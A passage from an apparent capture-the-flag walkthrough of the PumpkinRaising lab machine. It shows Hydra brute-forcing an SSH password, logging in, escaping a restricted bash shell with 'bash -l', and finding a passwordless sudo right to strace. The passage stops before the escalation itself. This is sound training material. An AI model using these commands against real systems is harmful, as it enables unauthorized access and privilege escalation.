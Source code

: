 Let's brute force jack's password using this dictionary:

~~~
kali@kali:/data/PumpkinRaising/files$ hydra -l jack -P ssh-passwords.txt ssh://172.16.222.169
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-20 20:27:04
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 24 login tries (l:1/p:24), ~2 tries per task
[DATA] attacking ssh://172.16.222.169:22/
[22][ssh] host: 172.16.222.169   login: jack   password: 69507506099645486568
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-20 20:27:09
~~~

Hydra found jack's password: `69507506099645486568`. Let's connect:

~~~
kali@kali:/data/PumpkinRaising/files$ ssh jack@172.16.222.169
jack@172.16.222.169's password: 
------------------------------------------------------------------------------
                          Welcome to Mission-Pumpkin
      All remote connections to this machine are monitored and recorded
------------------------------------------------------------------------------
Last login: Tue Jun 18 21:04:28 2019 from 192.168.1.105
jack@Pumpkin:~$ pwd
/home/jack
jack@Pumpkin:~$ ls -la
-rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
jack@Pumpkin:~$ 
~~~

## Evade the restricted bash (rbash)

We are in a restricted bash. One technique to bypass it is to pass `bash -l` as a parameter to the SSH connection, as follows:

~~~
$ ssh jack@172.16.222.169 -t "bash -l"
~~~

# Privilege Escalation

Checking jack's privileges reveals that we can run `strace` as `root` without password:

~~~
jack@Pumpkin:/$ sudo -l
Matching Defaults entries for jack on Pumpkin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jack may run the following commands on Pumpkin:
    (ALL) NOPASSWD: /usr/bin/strace
~~~
